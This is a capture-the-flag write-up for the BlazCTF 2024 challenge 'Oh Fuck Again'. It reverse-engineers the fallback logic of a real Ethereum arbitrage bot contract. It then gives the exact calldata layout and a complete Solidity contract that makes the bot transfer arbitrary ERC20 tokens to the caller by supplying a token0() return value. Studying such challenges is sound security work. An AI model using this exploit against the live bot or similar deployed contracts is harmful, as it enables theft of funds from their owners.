

# Oh Fuck Again (One Eyed Man)

> [!NOTE]  
> Hard  
> Source: https://github.com/fuzzland/blazctf-2024/tree/main/oh-fuck-oym

"Oh Fuck Again" was the second challenge of the "Oh Fuck" duo on BlazCTF 2024. The first challenge ([blazctf-2024/oh-fuck-pendle](https://github.com/fuzzland/blazctf-2024/tree/main/oh-fuck-pendle))
was about retrieving a custom ERC20 token accidentally sent to the Pendle protocol router, which we were able to easily solve by calling the `swapTokenToToken`
method with a malicious "pendleSwap" contract. The second challenge's description hints
at a similar format:

> Tony's heart sank again as he realized he incorrectly sent millions of dollars again. He was hacking arbitrage bots and came across a bot named One Eyed Man (https://etherscan.io/address/0xcf9997ff3178ee54270735fdc00d4a26730787e0). He felt he can trick the bot by sending fake tokens to it but accidentally sent real money. Help Tony recover his money.

## TLDR

The bot's contract contains a fallback function with callback-like payment mechanisms for non-EOA callers.
By executing this mechanism in a carefully-crafted call from our own contract,
we can get the bot to transfer arbitrary tokens to us by returning the desired token
address from the `token0()` method of our contract.

## Analysis

This challenge was probably the easiest in terms of its setup and solution criteria. Here's the whole `Challenge` contract:

```solidity
contract WBTC is ERC20 {
    constructor() {
        _mint(msg.sender, 1337 ether);
    }

    function name() public pure override returns (string memory) {
        return "Wrapped Bitcoin";
    }

    function symbol() public pure override returns (string memory) {
        return "WBTC";
    }
}

contract Challenge {
    address public immutable PLAYER;
    WBTC public immutable token;

    constructor(address player) {
        PLAYER = player;
        token = new WBTC();
        token.transfer(0xCf9997FF3178eE54270735fDc00d4A26730787E0, 1337 ether);
    }

    function isSolved() external view returns (bool) {
        return token.balanceOf(PLAYER) >= 337 ether;
    }
}
```

Since the whole supply of `WBTC` is transferred to the bot on challenge initialization,
there's no way to get it back except for the bot to `transfer` it back to us,
or `approve` it to be spent by us (e.g. using `transferFrom`).
Knowing this, lets simply go ahead with attempting to reverse engineer the bot's contract,
using https://app.dedaub.com, for example (disclaimer: not an advertisement,
however it is probably one of the best publicly-available EVM reverse engineering tools existing right now).

Taking a look at the "Decompiled" view (https://app.dedaub.com/ethereum/address/0xcf9997ff3178ee54270735fdc00d4a26730787e0/decompiled, copy available in [./decompiled.sol](./decompiled.sol)),
references to `transfer` exist only in the functions `0x10b2` and `0x96ce0a56`.
The second one can be simplified to something like this:

```solidity
function 0x96ce0a56(address token, address target) public payable {
    uint256 botBalance = token.balanceOf(address(this));
    uint256 initialBalance = token.balanceOf(target);
    token.transfer(target, botBalance);
    uint256 newBalance = token.balanceOf(target);
    require(newBalance <= initialBalance, newBalance - initialBalance);
    revert();
}
```

Even though it _does_ call `transfer` to an address parsed from the calldata (`0x96ce0a56` is publically callable),
it later expects the `transfer` to instead decrease the target's balance,
and then non-conditionally `revert`s anyway, meaning that this function is useless to us.
`0x10b2`, on the other hand, looks more promising, as it simplifies to a basic wrapper of calls to `transfer` with extra revert and return data checking:

```solidity
function 0x10b2(uint256 amount, address target, address token) private {
    (bool ok, _) = token.transfer(target, amount);
    require(ok, Error('Oopsie'));
}
```

However, as the decompiler view shows, this function is `private`,
so the next step is analyzing its call sites to see how we can call it with the right arguments:

1. `withdrawERCTo` is one of the public functions which calls `0x10b2`, but contains a `msg.sender` check to be callable only by the bot operator: `require(0xf90029931c7a9a27e350cd35c91cbedbb58350c4 == msg.sender)`;
2. fallback-like logic in the contract with a non-controllable `token` address (the third argument): `0x10b2(msg.data[v11] >> 128, msg.data[v83] >> 96, 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2);`;
3. A second call in the fallback logic, seems controllable, but is hidden inside some pretty deep `if` statements: `0x10b2(v7, msg.data[v12 + 2] >> 96, v18);`;
4. The last call site is also part of the fallback logic, with the `amount` argument being fully controllable via calldata, and the `token` address being controllable when the caller is a contract that implements the `token0()`/`token1()` methods:

To me, the last choice seemed to be the easiest to exploit, since two of the three parameters are easily controllable (`target` is `msg.sender`, `token` is returned from our own contract's method). Getting to it requires passing one main check:

```solidity
    v0 = v1 = 132;
    if (msg.data[4] == this) {
        v0 = v2 = 164;
    }
    // ...
    v11 = v0 + (msg.data[v0 - 32] - 17);
    // ...
    if (v11 - v0 != 16) {
        // non-interesting case
        // ...
    } else {
        // exploitable case
        // ...
        0x10b2(v87, msg.sender, v91);
    }
```

Supposing we set `calldata[4:36]` to 0x0, the `msg.data[4] == this` check will fail,
`v0` will be left at 132, and `v11` will need to be equal to 148 for us to reach the
interesting case. Since `v11` is set to the sum of `v0` and `msg.data[v0 - 32] - 17`,
we just need to set `calldata[132 - 32]` to 33 to get `v11` to equal `132 + 16` and trigger the else block. If we look inside the else block,
we see that by setting `msg.data[4]` to 0x0 we will trigger the `token0()` method to be called
on `msg.sender`, which can be our contract, and the `amount` value will be set to
`msg.data[v0] >> 128`. At this point, we know everything we need to solve the challenge,
and just need to craft a proper call to the bot contract.

## Solution

Crafting the call step-by-step should lead to calldata of this form:

| Indexes  | Value        | Comment                              |
| -------- | ------------ | ------------------------------------ |
| 0..3     | 0x0          | Invalid selector to trigger fallback |
| 4..35    | 0x0          | Pass `msg.data[4] != this` check     |
| 36..99   | 0x0          | Padding until index 100              |
| 100..131 | 33           | `msg.data[v0 - 32] - 17` equal to 16 |
| 132..147 | 1337 \* 10e8 | 1337 ether amount for transfer       |
| 148..163 | 0x0          | Pad to 32 bytes                      |

And the solution contract looks like this:

```solidity
contract SolveContract {
    address constant ONE_EYED_MAN = address(0xCf9997FF3178eE54270735fDc00d4A26730787E0);

    address private owner;
    address public token0;

    constructor(address token) {
        token0 = token;
        owner = msg.sender;
    }

    function solve() public {
        (bool ok, ) = ONE_EYED_MAN.call(
            abi.encodePacked(
                bytes4(0), // non-existent selector
                uint256(0), // msg.data[4] != this
                uint256(0),
                uint256(0), // 100 bytes
                uint256(33),
                uint128(1337 ether),
                uint128(0)
            )
        );
        require(ok, "call failed");

        WBTC(token0).transfer(owner, 1337 ether);
    }
}
```

The full solution script is available in the [./Solve.s.sol](./Solve.s.sol) file.
Running it requires specifying the actual script contract using the `--tc Solve` `forge` flag.


